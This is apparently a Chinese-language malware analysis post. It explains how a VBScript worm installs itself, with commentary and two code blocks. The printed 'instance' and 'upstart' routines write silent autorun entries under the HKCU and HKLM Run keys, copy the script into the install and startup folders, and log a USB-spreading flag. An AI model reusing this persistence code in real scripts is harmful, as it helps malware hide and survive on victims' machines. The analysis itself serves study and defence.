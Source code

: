 `upstart`的功能是添加开机启动项：

在`HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run`和`HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run`下分别添加一个以它名字命名的项，值相同，为`wscript.exe //B `加`installdir & installname`。`//B`告诉系统不要显示错误和提示信息（静默运行）。  
接着把它自己从当前位置复制到`installdir`和`startup`变量所指的路径。

接着继续在`instance`中执行。如果当前脚本的短路径和`installdir & installname`指向的短路径不同，则执行`installdir & installname`那个脚本，当前脚本退出。如果相同，说明它是从被感染主机上`installdir`启动的，接着调用`err.clear`显式清除错误记录。再尝试以追加方式打开`installdir & installname`（如果不存在则不创建文件），如果打开失败则退出脚本。至此`instance`函数结束。

{% highlight vb %}
function instance

on error resume next

usbspreading = shellobj.regread ("HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0) & "\")
if usbspreading = "" then
   if lcase ( mid(wscript.scriptfullname,2)) = ":\" &  lcase(installname) then
      usbspreading = "true - " & date
      shellobj.regwrite "HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0)  & "\", usbspreading, "REG_SZ"
   else
      usbspreading = "false - " & date
      shellobj.regwrite "HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0)  & "\", usbspreading, "REG_SZ"
   end if
end If

upstart

set scriptfullnameshort =  filesystemobj.getfile (wscript.scriptfullname)
set installfullnameshort =  filesystemobj.getfile (installdir & installname)
if lcase (scriptfullnameshort.shortpath) <> lcase (installfullnameshort.shortpath) then
    shellobj.run "wscript.exe //B " & chr(34) & installdir & installname & Chr(34)
    wscript.quit
end If

err.clear
set oneonce = filesystemobj.opentextfile (installdir & installname ,8, false)
if  err.number > 0 then wscript.quit

end function
{% endhighlight %}

{% highlight vb %}
sub upstart ()

on error resume Next

shellobj.regwrite "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run\" & split (installname,".")(0),  "wscript.exe //B " & chrw(34) & installdir & installname & chrw(34) , "REG_SZ"
shellobj.regwrite "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run\" & split (installname,".")(0),  "wscript.exe //B "  & chrw(34) & installdir & installname & chrw(34) , "REG_SZ"

filesystemobj.copyfile wscript.scriptfullname,installdir & installname,true
filesystemobj.copyfile wscript.scriptfullname,startup & installname ,true

end sub
{% endhighlight %}
